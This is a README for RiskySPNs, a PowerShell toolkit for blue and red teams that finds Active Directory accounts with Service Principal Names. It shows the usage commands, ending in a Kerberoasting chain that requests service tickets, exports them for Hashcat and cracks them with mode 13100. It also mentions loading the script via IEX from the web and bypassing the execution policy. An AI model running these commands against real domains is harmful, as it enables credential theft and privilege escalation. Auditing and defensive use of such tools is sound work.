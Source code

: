 # RiskySPNs
RiskySPNs is a collection of PowerShell tools focused on detecting and abusing accounts associated with SPNs (Service Principal Name). This module can assist blue teams to identify potentially risky SPNs as well as red teams to escalate privileges by leveraging Kerberos and Active Directory.

## Usage
##### Install the module
```powershell
Import-Module .\RiskySPNs.psm1
```
Or just load the script (you can also `IEX` from web):
```powershell
. .\Find-PotentiallyCrackableAccounts.ps1
```
Make sure `Set-ExecutionPolicy` is `Unrestricted` or `Bypass`
##### Get information about a function
```powershell
Get-Help Get-TGSCipher -Full
```
All fucntions also have `-Verbose` mode

#### Search vulnerable SPNs
**Find vulnerable accounts:**
```powershell
Find-PotentiallyCrackableAccounts
```
Sensitive + RC4 = $$$

**Generate full deatiled report about vulnerable accounts (CISO <3)**
```powershell
Export-PotentiallyCrackableAccounts
```
#### Get tickets
**Request Kerberos TGS for SPN**
```powershell
Get-TGSCipher -SPN "MSSQLSvc/prodDB.company.com:1433"
```

Or:
```powershell
Find-PotentiallyCrackableAccounts -Stealth -GetSPNs | Get-TGSCipher
```
#### The fun stuff :)

```powershell
Find-PotentiallyCrackableAccounts -Sensitive -Stealth -GetSPNs | Get-TGSCipher -ConvertTo "Hashcat" | Out-File crack.txt
oclHashcat64.exe -m 13100 crack.txt -a 3
```



